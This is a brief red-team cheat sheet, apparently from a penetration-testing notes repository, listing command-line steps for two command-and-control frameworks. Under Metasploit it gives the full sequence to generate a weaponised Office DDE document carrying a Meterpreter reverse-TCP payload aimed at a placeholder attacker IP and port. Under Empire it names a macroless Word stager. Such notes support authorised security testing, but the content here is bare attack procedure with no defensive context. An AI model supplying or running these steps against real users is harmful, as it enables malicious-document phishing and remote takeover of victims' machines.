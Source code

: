# C2 Frameworks

## 01 - Metasploit

TODO: Fill this info

```
msf > use exploit/windows/fileformat/office_dde_delivery

msf exploit(windows/fileformat/office_dde_delivery) > set payload windows/x64/meterpreter/reverse_tcp

msf exploit(windows/fileformat/office_dde_delivery) > options

msf exploit(windows/fileformat/office_dde_delivery) > set lhost <IP>

msf exploit(windows/fileformat/office_dde_delivery) > set lport <PORT>

msf exploit(windows/fileformat/office_dde_delivery) > run
```

## 02 - Empire

```
usestager windows/macroless_msword
```

---
## References

- [Panagiotis Gkatziroulis: DDE Payloads](https://medium.com/red-team/dde-payloads-16629f4a2fcd)